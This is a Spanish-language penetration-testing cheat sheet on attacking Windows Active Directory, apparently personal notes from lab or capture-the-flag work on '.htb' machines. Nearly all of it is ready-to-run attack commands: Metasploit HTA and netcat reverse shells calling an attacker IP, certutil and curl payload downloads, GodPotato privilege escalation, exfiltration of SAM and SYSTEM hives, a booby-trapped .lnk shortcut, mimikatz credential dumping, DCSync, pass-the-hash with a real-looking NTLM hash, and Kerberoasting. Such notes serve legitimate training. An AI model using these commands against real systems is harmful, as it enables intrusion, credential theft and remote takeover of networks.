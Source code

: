 ```yaml
---
{"dg-publish":true,"permalink":"/penetration-tester-path/active-directory-notes/","dgPassFrontmatter":true}
---
```



Active Directory (AD) es un servicio de directorio para su uso en un entorno Windows Server. Se trata de una estructura de base de datos distribuida y jerárquica que comparte información de infraestructura para localizar, proteger, administrar y organizar los recursos del equipo y de la red, como archivos, usuarios, grupos, periféricos y dispositivos de red.


## Enumeration

- Crackmapexec:

``` sh
crackmapexec smb 192.168.xx.xx -u . -p '' \
--pass-pol --shares --computers \ --groups --local-groups --rid-brute
```

- Remote Desktop (RDP):

``` javascript
xfreerdp /u:'xxxx' /p:'xxxx' /v:'192.168.xx.xx' /tls-seclevel:0
```

--- 

## Privilege Escalation

- Metasploit:

``` javascript
[*] Start 'hta_server' for reverse shell
rlwrap msfconsole -q -x "use exploit/windows/misc/hta_server; set LHOST 10.10.16.13; set SRVHOST 10.10.16.13; run"

[*] Started reverse TCP handler on 10.10.16.13:4444 
[*] Using URL: http://10.10.16.13:8080/nZzLAD.hta
[*] Server started.

[*] Run on Windows machine
mshta.exe http://10.10.16.13:8080/nZzLAD.hta

[*] Meterpreter
sessions -i
sessions -i 1,2,3 etc

[*] Escalate with 'getsystem'
meterpreter > getsystem
```

- RunAsCs.exe:

``` javascript
.\runascs.exe sql_svc WqSZAF6CysDQbGb3 --logon-type 5 -b "cmd /c whoami /priv"
```

- GodPotato (SeImpersonatePrivilege):

``` javascript
certutil -urlcache -f http://10.10.16.10:8088/nc.exe C:\programdata\nc.exe
certutil -urlcache -f http://10.10.16.10:8088/GodPotato-NET4.exe C:\programdata\GodPotato-NET4.exe
C:\programdata\GodPotato-NET4 -cmd "C:\programdata\nc.exe -e cmd.exe 10.10.16.10 4446"
```

- robocopy (SeBackupPrivilege):

``` javascript
robocopy /b \Users\Administrator\Desktop .
```

- impacket-secretsdump (SAM Local):

``` javascript
[*] From Windows victim
powershell -c reg save HKLM\SYSTEM SYSTEM.SAV
powershell -c reg save HKLM\SAM SAM.SAV
powershell -c compress-archive *.SAV SAM.zip
powershell -c iwr http://xxxx:xxxx -Method POST -InFile SAM.zip

[*] From Linux attacker
unzip -o SAM.zip
impacket-secretsdump \
LOCAL -sam SAM.SAV -system SYSTEM.SAV
```

- impacket-psexec (shell login):

``` javascript
[*] Using password:
impacket-psexec Administrator@xxxxxxxxxxx.xxx cmd.exe

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password: xxxxxxxxxx

[*] Using hash
impacket-psexec Administrator@htb.local cmd.exe -hashes 'aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6'
```

- link files .lnk:

``` javascript
[*] upload nc.exe to the remote machine
curl xxxxxxxxxx:xxxx/nc.exe -O

[*] inject reverse shell
powershell "$s=(New-Object -COM WScript.Shell).CreateShortcut('C:\Common Applications\Notepad.lnk');$s.TargetPath='C:\Windows\System32\cmd.exe';$s.Arguments='/c \"C:\ProgramData\nc.exe xxxxxxxxxx xxxx -e cmd\"';$s.Save()"
```

---

### Tools:

- rubeus.exe

Rubeus es un kit de herramientas en C diseñado para la interacción y el abuso de Kerberos. Permite a los atacantes realizar diversos ataques basados ​​en Active Directory, como la extracción, falsificación y manipulación de tickets Kerberos.
``` javascript
curl xxxxxxxxxx:xxxx/rubeus.exe -O
.\rubeus.exe dump /nowrap
```

- rubeustoccache.py:

`rubeusTocCache.py` es un **script en Python** no oficial que sirve para **convertir tickets Kerberos (TGT o TGS)** generados por la herramienta **Rubeus** (Windows) al **formato `ccache`**
``` python
python3 rubeustoccache.py 'BASE64==' admin admin;export KRB5CCNAME=admin
```

- mimikatz.exe:
es una **herramienta de post-explotación** extremadamente poderosa, usada principalmente por **red teamers, pentesters y atacantes** para manipular, extraer o abusar de credenciales en sistemas Windows. 
``` javascript
curl xxxxxxxxxx:xxxx/mimikatz.exe -O
.\mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit
.\mimikatz.exe "lsadump::dcsync /domain:xxxxxxxxxx.htb /user:Administrator" exit


.\mimikatz.exe privilege::debug "sekurlsa::pth /user:david /rc4:c39f2beb3d2ec06a62cb887fb391dee0 /domain:inlanefreight.htb /run:cmd.exe" exit
```

- powerview.ps1:

PowerView es una herramienta PowerShell para obtener conciencia situacional de red en los dominios de Windows. Contiene un conjunto de reemplazos de Pure-Powershell para varios comandos "netos" de Windows, que utilizan ganchos AD PowerShell y funciones de API WIN32 subyacentes para realizar una funcionalidad útil de dominio de Windows.
``` sh
curl xxxxxxxxxx:xxxx/powerview.ps1 -O
powershell Import-Module .\powerview.ps1
Get-NetDomain
Get-LocalUser
Set-DomainObject -Identity USERNAME -SET @{serviceprincipalname='SET/SET'}; Get-DomainSPNTicket -spn SET/SET
```


- certutil:

``` javascript
[*] dump to get 'Config:'
certutil -dump

CA Server: DC01.mist.htb
CA Name: mist-DC01-CA
Config: DC01.mist.htb\mist-DC01-CA
```




---

#AD #tools_AD #Windows #enum #privilege-escalation

---

